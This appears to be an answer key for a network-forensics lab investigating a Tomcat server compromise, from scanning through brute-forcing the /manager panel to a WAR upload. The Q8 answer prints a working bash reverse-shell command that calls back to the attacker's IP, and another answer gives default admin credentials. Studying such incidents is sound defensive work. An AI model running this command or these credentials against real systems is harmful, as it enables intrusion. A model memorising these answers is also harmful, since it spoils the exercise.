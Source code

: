 # Web Server Incident Investigation Lab

This lab focuses on investigating suspicious activities detected on a web server through pcap analysis. The objective is to analyze the network traffic, identify malicious behavior, and understand the steps taken by the attacker. Below are the questions and answers to guide you through the investigation:

## Questions and Answers

### Q1
Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

**Answer:** `14.0.0.120`

### Q2
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

**Answer:** `Guangzhou`

### Q3
From the pcap analysis, multiple open ports were detected as a result of the attacker's activity scan. Which of these ports provides access to the web server admin panel?

**Answer:** `8080`

### Q4
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?

**Answer:** `gobuster`

### Q5
Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

**Answer:** `/manager`

### Q6
Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

**Answer:** `admin:tomcat`

### Q7
Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

**Answer:** `JXQOZY.war`

### Q8
Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

**Answer:** `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`
